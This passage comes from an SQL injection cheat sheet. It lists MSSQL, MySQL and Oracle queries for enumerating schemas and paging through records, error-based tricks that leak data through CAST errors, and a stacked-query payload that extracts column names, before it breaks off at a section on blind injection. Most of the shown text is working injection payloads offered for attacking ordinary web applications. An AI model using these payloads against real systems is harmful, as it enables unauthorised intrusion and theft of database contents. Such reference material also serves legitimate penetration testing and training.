 `SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')`

### Moving records (S)

- Modify WHERE and use **`NOT IN`** or **`NOT EXIST`**,

`... WHERE users NOT IN ('First User', 'Second User')`

`SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members)` *-- very good one*

- Using Dirty Tricks

`SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as int `

`[[NEWLINE]]Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21`

### Fast way to extract data from Error Based SQL Injections in SQL Server (S)

`';BEGIN DECLARE @rt varchar(8000) SET @rd=':' SELECT @rd=@rd+' '+name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--`

**Detailed Article: **[Fast way to extract data from Error Based SQL Injections](http://ferruh.mavituna.com/fast-way-to-extract-data-from-error-based-sql-injections-oku/)

### Finding Database Structure in MySQL (M)

#### Getting User defined Tables

`SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'`

#### Getting Column Names

`SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'`

### Finding Database Structure in Oracle (O)

#### Getting User defined Tables

`SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'`

#### Getting Column Names

`SELECT * FROM all_col_comments WHERE TABLE_NAME = 'TABLE'`

## Blind SQL Injections

### About Blind SQL Injections

In a quite good production application generally **you can not see error responses on the page**, so you can not extract data through Union attacks or error based attacks. You have to do use Blind SQL Injections attacks to extract data. There are two kind of Blind Sql Injections.
